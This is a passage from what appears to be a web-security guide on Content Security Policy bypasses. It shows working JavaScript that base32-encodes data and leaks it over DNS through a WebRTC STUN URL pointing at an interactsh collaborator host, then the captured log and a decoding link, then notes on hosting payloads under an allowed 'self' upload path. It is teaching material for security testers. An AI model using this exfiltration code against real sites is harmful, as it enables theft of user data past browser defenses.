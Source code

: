 ```javascript
function base32(s) {
  let b = "";
  for (let i = 0; i < s.length; i++) {
    b += s.charCodeAt(i).toString(2).padStart(8, "0");
  }
  let a = "abcdefghijklmnopqrstuvwxyz234567";
  let r = "";
  for (let i = 0; i < b.length; i += 5) {
    let p = b.substr(i, 5).padEnd(5, "0");
    let j = parseInt(p, 2);
    r += a.charAt(j);
  }
  return r.match(/.{1,63}/g).join(".");
}

async function leak(data) {
  let c = { iceServers: [{ urls: `stun:${base32(data)}.ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online` }] };
  let p = new RTCPeerConnection(c);
  p.createDataChannel("");
  await p.setLocalDescription();
}

leak("Hello, world! ".repeat(8));
```

Finally, we receive DNS requests on the `interactsh-client` that we can [decode](https://gchq.github.io/CyberChef/#recipe=To_Upper_case\('All'\)From_Base32\('A-Z2-7%3D',true\)\&input=akJzd1kzZFBmcXFITzMzU25yc2NjSWNpTVZ3R3kzek1FYjN3NjRUTU1RcVNBU2RmTnJXZzZsYmFvNXhYZTNkLmVlRXFlUVpMbW5yWHNZaUR4TjV6Z3laQkJFYkVHSzNkTU40d2NBNTNwb2p3R0lJakFKQlNXeTNEcEZxcUhPMy4zc25Sc2NDSWNpTVZXZ1kzek1lYjN3NjR0bU1RcVNBU0RGTnJ3ZzZsYkFvNVhYZTNkZWVFUWE):

{% code title="interactsh-client" overflow="wrap" %}
```log
...
[jbswY3dpfqqHo33snrSccICiMvwGY3zMeB3w64TMMqqsaSdfNRwg6LBao5xxe3d.eEeqEqzLMnrxSyIdXn5ZGyZbBEBEGK3dmN4WcA53pojWGIijAjbsWy3dPfQqHO3.3SNrScCIciMVwgY3zMEB3W64tmmqqSASDfnrWG6LbaO5xXe3DeEeQa.CkJbCs2q8GudlQGiTungUCqgux7BFhahq] Received DNS interaction (A) from 74.125.114.204
```
{% endcode %}

#### Hosting JavaScript on `'self'`

The URLs and `'self'` trust all scripts coming from that domain, meaning in a secure environment no user data should be stored under those domains, like uploaded JavaScript files. If this is allowed, an attacker can simply upload and host their payload on an allowed website and it is suddenly trusted by the CSP.&#x20;

{% code title="/uploads/payload.js" %}
```javascript
alert()
```
{% endcode %}


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed